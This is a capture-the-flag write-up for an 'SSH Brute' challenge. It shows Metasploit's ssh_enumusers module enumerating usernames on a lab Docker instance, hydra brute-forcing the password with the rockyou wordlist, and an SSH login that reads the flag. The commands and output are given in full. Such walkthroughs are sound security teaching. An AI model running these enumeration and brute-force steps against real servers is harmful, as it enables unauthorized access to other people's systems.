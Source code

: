 # SSH Brute

## Overview

- Overall difficulty for me: Easy

**In this challenge, we can spawn a docker instance:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/GuidePoint-Security-Oct27-2022/images/Pasted%20image%2020221030064109.png)

## Find the flag

**First, we need to brute force the username:**

**To do so, I'll use MetaSploit's `scanner/ssh/ssh_enumusers` module:**
```
┌──(root🌸siunam)-[~/ctf/GuidePoint-Security-Oct27-2022/Web/SSH-Brute]
└─# msfconsole
[...]
msf6 > use scanner/ssh/ssh_enumusers
msf6 auxiliary(scanner/ssh/ssh_enumusers) > set RHOSTS 10.10.100.200
msf6 auxiliary(scanner/ssh/ssh_enumusers) > set RPORT 47074
msf6 auxiliary(scanner/ssh/ssh_enumusers) > set USER_FILE /usr/share/seclists/Usernames/xato-net-10-million-usernames-dup.txt

msf6 auxiliary(scanner/ssh/ssh_enumusers) > run
[*] 10.10.100.200:47074 - SSH - Using malformed packet technique
[*] 10.10.100.200:47074 - SSH - Starting scan
[+] 10.10.100.200:47074 - SSH - User 'monkey' found
[+] 10.10.100.200:47074 - SSH - User 'root' found
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

- Found username: `monkey`

**Next, we can use `hydra` to brute force it's password:**
```
┌──(root🌸siunam)-[~/ctf/GuidePoint-Security-Oct27-2022/Web/SSH-Brute]
└─# hydra -l monkey -P /usr/share/wordlists/rockyou.txt ssh://10.10.100.200 -s 47074 
[...]
[47074][ssh] host: 10.10.100.200   login: monkey   password: ginger
```

**Found it! Let's SSH into `monkey` and cat the flag!**
```
┌──(root🌸siunam)-[~/ctf/GuidePoint-Security-Oct27-2022/Web/SSH-Brute]
└─# ssh monkey@10.10.100.200 -p 47074
monkey@10.10.100.200's password: 
[...]

3b97d5b2bdf1:~$ ls -lah
[...]
-rw-------    1 monkey   monkey         8 Oct 30 10:43 .ash_history
-rw-r--r--    1 monkey   monkey        41 Oct 24 16:07 flag.txt

3b97d5b2bdf1:~$ cat flag.txt
GPSCTF{b41aef848fbf49e7721df51a542e3971}
```

We got the flag!

# Conclusion

What we've learned:

1. Enumerating SSH Username and Brute Forcing SSH Password via `hydra`